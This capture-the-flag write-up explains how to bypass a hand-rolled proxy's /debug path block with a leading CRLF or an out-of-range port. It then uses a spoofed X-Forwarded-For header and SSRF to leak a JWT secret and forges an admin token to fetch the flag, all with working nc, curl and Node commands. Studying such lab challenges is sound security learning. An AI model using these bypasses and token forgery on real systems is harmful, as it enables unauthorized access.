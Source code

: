 ## Overview

### Server1 (port 5000)

- Not exposed
- Serves JWT secret on `/.well-known/jwks.json`

### Server2 (port 3000)

- Not exposed
- The flag can be obtained by requesting `/admin/flag`, with the limitation of having a valid jwt token.
- SSRF on `/debug/fetch`

### Proxy (port 8082)

- Exposed
- Forwards requests to Server2 with the exclusion of paths starting with `/debug`

### Observation

In Server2, by requesting `/admin/flag` the server will only check if the JWT is generated with a valid secret and if role is admin.
And `/debug/fetch` will trust requests that has x-forwarded-for header equals to 127.0.0.1.
We can use SSRF to access Server1 and obtain JWT secret, then generate a valid JWT token and use it to access `/admin/flag`. Easy Right?

#### The missing piece

We can't access `/debug/fetch` because the proxy blocks it; We have to bypass that.

```js
if (checkPath.toLowerCase().startsWith("/debug")) {
  client.write(
    "HTTP/1.1 403 Forbidden\r\nConnection: close\r\nContent-Type: text/plain\r\nContent-Length: 9\r\n\r\nforbidden"
  );
  client.end();
  upstream.end();
  return;
}
```

#### Bypassing proxy path blocking

One thing that you may noticed is headers are parsed manually using `parseHeaders`:

```js
  client.on("data", (chunk) => {
    clientBuf = Buffer.concat([clientBuf, chunk]);

    const meta = parseHeaders(clientBuf);
    if (!meta) return;

    const { idx, method, path, headers } = meta;
```

Another thing that feels wrong is ignoring the error of URL parsing:

```js
try {
  if (/^https?:\/\//i.test(checkPath)) {
    const u = new URL(checkPath);
    checkPath = u.pathname || "";
  }
} catch (_) {}
```

### Payloads:

note:replace `instanceip` with yours

```bash
printf '\r\nGET /debug/fetch?url=http://localhost:5000/.well-known/jwks.json HTTP/1.1\r\nHost: example\r\nX-Forwarded-For: 127.0.0.1\r\n\r\n' | nc instanceip 8082
```

- parseHeaders will split with \r\n and parse the first part as the request line which will result in empty string, hence `/^https?:\/\//i.test(checkPath)` is false

```bash
 printf 'GET https://localhost:65536/debug/fetch?url=http://localhost:5000/.well-known/jwks.json HTTP/1.1\r\nHost: example\r\nX-Forwarded-For: 127.0.0.1\r\n\r\n' | nc instanceip 8082

```

- `new URL(checkPath)` will throw an error since 65536 is bigger than the maximum allowed port 65535

### Flag (no idea)

the previous payload will let us obtain the JWT secret (the field 'n' from the JSON response).

```json
{
  "keys": [
    {
      "kty": "RSA",
      "n": "random-string-for-hmac-secret",
      ...
    }
  ]
}
```

generate a valid jwt token:

```js
const jwt = require("jsonwebtoken");

const secret = "random-string-for-hmac-secret";
const payload = { role: "admin" };
const token = jwt.sign(payload, secret, { algorithm: "HS256" });

console.log(token);
```

get the flag

```bash

curl -v \
  -H "Authorization: Bearer eyJxxxxxxxx" \
  http://instanceip:8082/admin/flag
```

